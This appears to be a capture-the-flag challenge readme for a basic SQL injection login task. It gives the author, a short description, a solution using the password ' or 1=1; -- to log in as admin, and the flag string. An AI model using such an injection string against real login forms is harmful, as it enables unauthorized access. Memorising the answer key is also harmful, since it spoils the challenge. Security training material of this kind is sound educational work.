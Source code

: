 # Author
- John Cunniff

# Internal Description
- Super basic sqli challange. Just log into admin account. No hidden tricks here.

# Solution
- username: admin
- passowrd: ' or 1=1; --

# Flag
- flag{j00'V3_pa223d_w38_s3cUri7Y_101}

